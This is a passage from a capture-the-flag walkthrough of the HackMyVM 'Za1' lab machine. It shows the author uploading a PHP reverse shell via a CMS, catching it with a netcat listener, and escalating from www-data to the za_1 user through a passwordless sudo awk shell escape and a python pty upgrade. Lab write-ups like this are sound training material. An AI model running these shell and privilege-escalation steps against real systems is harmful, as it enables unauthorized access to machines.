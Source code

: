 Here I uploaded the php reverse shell file from attacker machine and publised it →

Then I went to *<kbd>manage</kbd> > <kbd>document</kbd> > <kbd>shell.php</kbd>* →

I got this url to load my reverse shell →

![Untitled](Za1/Untitled%207.png)

I loaded that url and I got the reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Za1]
└─$ nc -lvnp 4444                             
listening on [any] 4444 ...
	connect to [10.0.2.60] from (UNKNOWN) [10.0.2.70] 40758
Linux za_1 4.15.0-213-generic #224-Ubuntu SMP Mon Jun 19 13:30:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 05:59:12 up 51 min,  0 users,  load average: 0.00, 0.01, 1.96
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ /bin/bash -i
bash: cannot set terminal process group (1230): Inappropriate ioctl for device
bash: no job control in this shell
www-data@za_1:/$ 
www-data@za_1:/$ whoami
whoami
www-data
www-data@za_1:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@za_1:/$ pwd
/
pwd
www-data@za_1:/$
```
{: .nolineno}
{: .nolineno}

Let dig deeper →

I simple executed sudo -l command and I got the output →

```bash
www-data@za_1:/$ sudo -l
Matching Defaults entries for www-data on za_1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on za_1:
    (za_1) NOPASSWD: /usr/bin/awk
www-data@za_1:/$ sudo -u za_1 awk 'BEGIN {system("/bin/sh")}'
$ whoami
za_1
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
za_1@za_1:/$ id
uid=1000(za_1) gid=1000(za_1) groups=1000(za_1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
za_1@za_1:/$
za_1@za_1:/$ cd ~
za_1@za_1:~$ ls -al
total 44
drwxr-xr-x 6 za_1 za_1 4096 Aug 22 08:49 .
drwxr-xr-x 3 root root 4096 Jul 26 07:07 ..
lrwxrwxrwx 1 za_1 za_1    9 Aug 22 08:49 .bash_history -> /dev/null
-rw-r--r-- 1 za_1 za_1  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 za_1 za_1 3771 Apr  4  2018 .bashrc
```
